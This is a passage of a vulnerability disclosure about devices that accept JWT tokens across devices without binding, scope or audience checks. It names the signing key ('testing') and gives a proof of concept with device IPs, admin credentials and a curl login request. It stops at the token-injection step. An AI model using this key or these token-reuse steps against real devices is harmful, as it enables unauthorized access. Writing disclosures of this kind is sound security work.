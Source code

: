 
## Affected Component(s)
- **Session Handling:** Improper validation of JWT tokens across devices.  
- **Authentication:** Failure to bind JWT tokens to a specific device or session.  
- **Authorization:** Lack of proper scope and audience validation for JWT tokens.  

---

## Attack Vector(s)
- **Access Method:** Remote, over HTTP.  
- **Authentication Requirement:** None (bypass via token injection).  
- **Exploit Complexity:** Low (manual token injection).  

---
## jwt key is:
```
testing
```
---


## Proof of Concept (PoC)
### 1. Scenario Overview
**Device 1**:  
- IP Address: `137.18.2.1`  
- Username: `admin`  
- Password: `passd1`  

**Device 2**:  
- IP Address: `208.129.3.4`  
- Username: `admin`  
- Password: `pworld2`  

---

### 2. Exploit Steps
✅ **Step 1: Obtain JWT Token from Device 1**  
Log into Device 1 using valid credentials to obtain a JWT token:

```bash
curl -X POST 'http://137.18.2.1/login' \
-H 'Content-Type: application/json' \
--data-raw '{
  "username": "admin",
  "password": "passd1"
}'
```
Example Response:

```json
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```
✅ **Step 2: Inject JWT Token into Browser's Local Storage on Device 2**
